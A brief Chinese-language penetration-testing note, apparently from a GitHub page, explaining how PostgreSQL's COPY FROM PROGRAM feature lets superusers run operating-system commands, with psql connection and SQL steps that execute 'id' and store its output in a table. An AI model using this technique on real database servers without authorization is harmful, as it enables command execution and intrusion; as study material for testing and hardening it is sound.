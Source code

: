 原理：9.3增加一个`COPY TO/FROM PROGRAM`功能。这个功能就是允许数据库的超级用户以及`pg_read_server_files`组中的任何用户执行操作系统命令

流程：

1. 连接到`postgres`中

   ```
   psql --host 192.168.204.136  --username postgres
   ```

2. 执行如下语句，其中`FROM PROGRAM`语句将执行命令id并将结果保存在`cmd_exec`表中

   ```
   DROP TABLE IF EXISTS cmd_exec;
   CREATE TABLE cmd_exec(cmd_output text);
   COPY cmd_exec FROM PROGRAM 'id';
   SELECT * FROM cmd_exec;
   ```


------